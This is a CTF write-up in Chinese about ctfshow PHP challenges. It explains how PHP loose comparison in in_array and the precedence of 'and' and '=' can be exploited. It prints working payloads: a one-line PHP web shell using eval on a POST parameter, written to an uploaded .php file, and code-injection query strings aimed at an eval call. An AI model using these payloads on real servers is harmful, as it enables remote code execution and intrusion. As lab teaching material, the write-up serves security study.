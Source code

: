 考察点：php弱类型比较

```php
$allow = array(1,'2','3');
var_dump(in_array('1.php',$allow));
返回的为true

$allow = array('1','2','3');
var_dump(in_array('1.php',$allow));
返回false
```

in_array延用了php中的==
 具体内容可以查看php手册->附录->**PHP类型比较表**
 因为新加进去的随机数字每次都包含1，1存在的几率是最大的。
 所以直接写 `n=1.php post:content=<?php eval($_POST[1]);?>`多试几次即可

## 100.101         and与&&与=优先级

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}

?>
```

知识点一：and 与 &&

原本以为两个都是一样的,但其实运算级有区别,因为赋值运算的优先级比AND和OR的高，所以先赋值；比&&和||的低，所以逻辑运算符先执行，先逻辑运算，再赋值。

所以这里其实只需要is_numberic($v1)为真就行

知识点二: ReflectionClass 类

https://blog.csdn.net/miuzzx/article/details/109168454

payload:`?v1=1&v2=echo new ReflectionClass&v3=;`

100非预期解1

```
直接输出$ctfshow;构造出 var_dump($ctfshow);
payload:v1=1&v2=var_dump($ctfshow)/*&v3=*/;
```
